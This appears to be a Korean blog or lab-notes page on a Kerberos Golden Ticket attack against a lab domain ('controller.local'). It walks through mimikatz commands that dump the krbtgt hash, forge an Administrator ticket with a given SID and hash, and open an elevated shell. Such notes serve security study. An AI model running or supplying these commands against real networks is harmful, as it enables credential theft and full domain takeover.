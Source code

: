 ```yaml
---
layout: page
title: Golden_Ticket_Attack
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


mimikatz 사용


#### krbtgt 해시 덤프

```powershell
./mimikatz.exe
```

```powershell
privilege::debug
```

```powershell
lsadump::lsa /inject /name:krbtgt
```

![Pasted_image_20250823213403.png](/image/Pasted_image_20250823213403.png)

```powershell
kerberos::golden /user:"Administrator" /domain:"controller.local" /sid:"S-1-5-21-849420856-2351964222-986696166" /krbtgt:"5508500012cc005cf7082a9a89ebdfdf" /id:500
```

![Pasted_image_20250823215128.png](/image/Pasted_image_20250823215128.png)

```powershell
# 모든 컴퓨터에 대해 상승된 권한이 있는 새 명령 프롬프트가 열림
misc::cmd
```

![Pasted_image_20250823215141.png](/image/Pasted_image_20250823215141.png)

이제 네트워크의 다른 모든 시스템에 액세스할 수 있는 또 다른 명령 프롬프트가 표시됩니다.

![Pasted_image_20250823215149.png](/image/Pasted_image_20250823215149.png)

![Pasted_image_20250823215249.png](/image/Pasted_image_20250823215249.png)

